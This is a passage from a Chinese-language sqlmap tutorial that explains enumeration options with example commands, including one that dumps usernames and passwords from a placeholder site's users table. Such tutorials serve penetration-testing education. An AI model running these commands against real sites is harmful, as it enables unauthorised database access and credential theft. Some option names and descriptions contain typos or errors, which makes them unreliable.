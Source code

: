 

## 0x3d --dbs、--tables、-D、--exclude-sysdbs、-T、--columns、-C、--dump
- --dbs      sqlmap列举数据库名
- --tables     列举表名
- -D     指定数据库
- --exclude-sysdbs       排除系统数据库（information_shcema等）
- -T      指定表
- --columns      列举字段名
- -C     指定列名
- --dump      枚举数据值

```
sqlmap -u "http://xxx.com/xxx.php?id=1" -D security -T users -C "username,password" --dump
```



## 0x3e --schema
枚举schema信息。用户可以使用此开关检索DBMS模式。模式列表将包含所有数据库、表和列，以及它们各自的类型。与--exclude-sysdb结合使用时，只会检索和显示包含非系统数据库的模式的一部分。

```
sqlmap -u "http://xxx.com/xxx.php?id=1" --schema --exclude-sysdbs --batch
```



## 0x3f --count
检索数据表数量，如果用户只想知道表的条目数，就可以使用这参数。

```
sqlmap -u "http://xxx.com/xxx.php?id=1" --count
```



## 0x40 --start、--stop、--first、--last
可有可无的参数。

- --start 1 --stop 3  获取第二张到第三张表的名字
- --stop 1   获取第一张表的名字
- --first 3 --last 5    获取从第三出发到第五个字符



## 0x41 --pivot-column、--where
--pivot-column 设置条件获取信息，即主键。

```
sqlmap -u "http://xxx.com/xxx.php?id=1" --pivot-columm id
```


可以加--where来设置条件：
